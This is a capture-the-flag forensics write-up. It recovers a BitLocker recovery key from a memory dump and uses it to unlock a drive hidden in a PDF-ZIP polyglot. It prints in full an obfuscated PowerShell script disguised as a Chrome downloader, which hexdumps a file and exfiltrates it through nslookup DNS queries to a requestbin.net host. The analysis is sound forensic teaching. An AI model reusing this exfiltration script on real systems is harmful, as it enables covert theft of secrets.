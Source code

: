 # Trust Issues

We have the memory dump of Mark's PC and a file ```confidential.pdf``` which was in his computer. We can either start with analysing the memory dump or the suspicious pdf.

## Analysing the memory dump

```bash
$ vol.py -f trustissues.raw imageinfo
Volatility Foundation Volatility Framework 2.6
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_23418
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/deathblade/ctf/DNS/trustissues.raw)
                      PAE type : No PAE
                           DTB : 0x187000L
                          KDBG : 0xf800029f3130L
          Number of Processors : 4
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0xfffff800029f5000L
                KPCR for CPU 1 : 0xfffff88002e40000L
                KPCR for CPU 2 : 0xfffff88002ebf000L
                KPCR for CPU 3 : 0xfffff88002f3e000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2020-12-26 10:59:24 UTC+0000
     Image local date and time : 2020-12-26 02:59:24 -0800
```

Now we have a profile.

Let us do another usual command:

```bash
vol.py -f trustissues.raw --profile=Win7SP1x64 filescan |grep Desktop
```

This should give a long list of files. In this we can find the directory ```Setup files given by sysadmin``` in which there are some setup scripts and installer files. We also notice a ```ChromeDownload.ps1``` which is odd cause why does downloading chrome need a powershell script?

So let us dump this powershell script and see what it contains:

```bash
vol.py -f trustissues.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000007d845a10 -D .
cat file.None.0xfffffa8001d33ca0.dat
```

We find the following script:

```powershell
.("{0}{1}"-f 'ech','o'  ) 'Downloading Chrome......'

  & (  "{3}{4}{1}{0}{2}"-f 'eque','R','st','I','nvoke-Web' ) https://dl.google.com/tag/s/appguid%3D%7B8A69D345-D564-463C-AFF1-A69D9E530F96%7D%26iid%3D%7B61A54C60-6972-227A-921D-DAD2B3C34001%7D%26lang%3Den%26browser%3D5%26usagestats%3D1%26appname%3DGoogle%2520Chrome%26needsadmin%3Dprefers%26ap%3Dx64-stable-statsdef_1%26brand%3DONGR%26installdataindex%3Ddefaultbrowser/update2/installers/ChromeSetup.exe -OutFile ChromeSetup.exe

${D`UMp}    =     & ( "{1}{0}{2}"-f 't-','Forma','Hex') -Path 'D:\Bitlo*'
${d`NS}   =    '.7965708720dcbe1fbd5b.d.requestbin.net'

for( ${i}     =     0  ;    ${D`UmP}[${I}];    ${I}++ )
{
    ${h`eX}    =  ${d`UMp}[${i}].ToString(   )
    ${h`EX}   = ${H`Ex}.replace(  ' ','' )
    if( ${I} -lt (${du`MP}.length - 1) )
    {
         ${H`eX}   =   ${h`eX}.Substring(   8,32  )
    }
    else
    {
        ${l`En`GTH}  =     (   (  ${H`ex}.length - 8  )*2  )/3
        ${H`eX}   =   ${h`eX}.Substring(   8,${l`EngtH}  )
    }
      . (  "{1}{2}{0}" -f 'up','nslo','ok') ( ${H`eX}     + ${d`Ns}  ) *>${N`ULl}
}

.("{1}{0}"-f'cho','e'  ) 'Downloaded Chrome'
```

We see an obfuscated script which does hella lot more than just download chrome. On deobfuscating it, we can see that it is converting a file at ```D:\Bitlo*``` into a hexdump and sending it as DNS requests using ```nslookup``` command part by part. This is some sort of a (n00bish) DNS exfiltration attack, performed by the sysadmin who gave these files. (You could have also easily been tipped off by the ```nslookup.exe``` processes in pslist or pstree)

We are also not able to dump nor scan the files in ```D:\```. One way to get the files would be to carve the packets out of the memory dump. You can either use caploader in Windows or you could find third party plugins for volatility such as the one used [here](https://github.com/Memoryforensics/carve_packets).

```bash
vol.py --plugins=carve_packets -f trustissues.raw --profile=Win7SP1x64 networkpackets -D .
```

The packets are dumped at ```packets.pcap```.

Let us use tshark to filter out the hex data as follows:

```bash
$ tshark -Y "dns.id == 2" -T fields -e "dns.qry.name"  -r packets.pcap | cut -d '.' -f1 |xxd -r -p
tLocker protected drive.

To verify that this is the correct recovery key compare the identification with what is presented on the recovery screen.

Recovery key identification: ABC7C7A1-9BEE-4F
Full recovery key identification: ABC7C7A1-9BEE-4F1C-90F7-5AB6D66CD465

BitLocker Recovery Key:
299981-297792-361471-261789-114642-633501-520685-433719

��BitLocker Drive Encryption Recovery Key

The recovery key is used to recover the data on a Bi
```

Thus, we have obtained a BitLocker recovery key (packets are disarranged here) which can be used to unlock a drive.

Another way to do this would be to dump the memory of powershell or the nslookup processes and search for relevant strings (bitlocker, requestbin, etc).

## Analysing the PDF

It is strange that a 5 page pdf has a size of roughly 81 MB. Let us see what is in this:

```bash
$ binwalk confidential.pdf 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
42            0x2A            Zip archive data, at least v2.0 to extract, compressed size: 939559, uncompressed size: 939559, name: confidential.pdf
939647        0xE567F         Zip archive data, at least v2.0 to extract, compressed size: 80507861, uncompressed size: 83886592, name: confidential.vhd
81447678      0x4DACAFE       End of Zip archive, footer length: 22

```

We got a ZIP PDF polyglot. On unzipping the PDF, we get the VHD file.

```bash
$ fdisk -l confidential.vhd
Disk confidential.vhd: 80 MiB, 83886592 bytes, 163841 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x6e388fd9

Device            Boot Start    End Sectors Size Id Type
confidential.vhd1        128 157823  157696  77M  7 HPFS/NTFS/exFAT
```

We have the mountable drive starting at offset ```$((512*128)) = 65536```.

```bash
$ dd if=confidential.vhd of=mountable.dd bs=65536 skip=1
1279+1 records in
1279+1 records out
83821056 bytes (84 MB, 80 MiB) copied, 0.128413 s, 653 MB/s

$ file mountable.dd
mountable.dd: DOS/MBR boot sector, code offset 0x58+2, OEM-ID "-FVE-FS-", sectors/cluster 8, reserved sectors 0, Media descriptor 0xf8, sectors/track 63, heads 255, hidden sectors 128, FAT (32 bit), sectors/FAT 8160, serial number 0x0, unlabeled; NTFS, sectors/track 63, physical drive 0x1fe0, $MFT start cluster 393217, serial number 02020454d414e204f, checksum 0x41462020
```

This is a BitLocker encrypted drive as indicated by the ```-FVE-FS-``` header. Mounting this will require ```libbde-utils```.

## Getting the flag

```bash
$ mkdir mountpoint

$ bdemount -r 299981-297792-361471-261789-114642-633501-520685-433719 mountable.dd mountpoint/

$ cp mountpoint/bde1 .

$ mkdir new_mountpoint

$ mount bde1 new_mountpoint

$ ls new_mountpoint/
'System Volume Information'  'Technical Business Document.docx'   flag.txt

$ cat new_mountpoint/flag.txt
p_ctf{1_wi$h_y0u_DNSee_th3_kEy}
```
